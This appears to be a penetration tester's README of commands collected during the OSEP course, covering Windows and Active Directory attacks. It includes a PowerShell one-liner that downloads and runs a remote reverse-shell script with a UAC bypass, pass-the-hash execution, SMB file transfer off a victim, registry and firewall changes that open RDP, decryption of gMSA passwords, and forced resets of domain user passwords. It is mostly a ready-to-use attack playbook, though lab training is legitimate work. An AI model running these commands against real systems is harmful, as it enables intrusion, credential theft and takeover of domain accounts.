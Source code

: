Just a bunch of tools built/gathered along the OSEP course.

# <ins>Useful Basic Commands</ins>:

### <ins>Run command as another user</ins>:
- `Invoke-RunasCs amit 'Password123!' 'powershell iex(iwr http://192.168.45.185/rev.txt -usebasicparsing)' -ForceProfile -CreateProcessFunction 2 -BypassUac`

### <ins>Set up SMB server (file transfer)</ins>:
- `smbserver.py share $(pwd) -smb2support -username amit -password password`
- On Victim: `net use \\192.168.45.223\share /U:amit password`
- Copy files: `copy <FILENAME> \\192.168.45.223\share`

### <ins>Enable RDP and RestrictedAdmin from both Local/Remote</ins>:

Using command prompt: 
- `reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f && reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0 && netsh firewall set service remoteadmin enable && netsh firewall set service remotedesktop enable` 

Using netexec:
- `netexec smb db01 -u administrator -H faf3185b0a608ce2f8afb6f8d133f85b --local-auth -X 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f;reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0;netsh firewall set service remoteadmin enable;netsh firewall set service remotedesktop enable' --exec-method atexec`

### <ins>RDP to host using xfreerdp</ins>:
- `xfreerdp /v:172.16.231.221 /u:amit /p:'Password123!' +dynamic-resolution +clipboard`

# <ins>BloodHound Dacls Abuse</ins>

### <ins>GMSAPasswordReader</ins>

Decrypt the gmsa password

    1. $gmsa = Get-ADServiceAccount -Identity bir-adfs-gmsa -Properties msDS-ManagedPassword
    2. $mp = $gmsa.'msDS-ManagedPassword'
    $mp // Get the password in numbers
    3. ConvertFrom-ADManagedPasswordBlob $mp

If the clear-text password not appear, let's just use it.

    1. $password = (ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
    2. $cred = New-Object System.Management.Automation.PSCredential "GroupName" , $password

Now we got the credentials Objects, let's open a new session with the privileged user:

    1. Invoke-Command -ComputerName 127.0.0.1 -cred $cred -ScriptBlock {net user DomainAdminmUser P@ssw0rd1!}
    2. Invoke-Command -ComputerName 127.0.0.1 -Credential $cred -ScriptBlock {Set-ADAccountPassword -Identity tristan.davies -reset -NewPassword (ConvertTo-SecureString -AsPlainText 'Password1234!' -Force)}

### ForceChangePassword

This Dacl means we can change the user's password without knowing his current one.

Change it using rpcclient:

    1. rpcclient -U <username> <ip>
    2. setuserinfo2 <username-we-can-change-password-to> 23 'NewPassword123!'

Change it using PowerView:

    1. $newpass = ConverTo-SecureString 'Password1234!' -AsPlainText -Force
    2. SetDomainPassword -Identity smith -AccountPassword $newpass

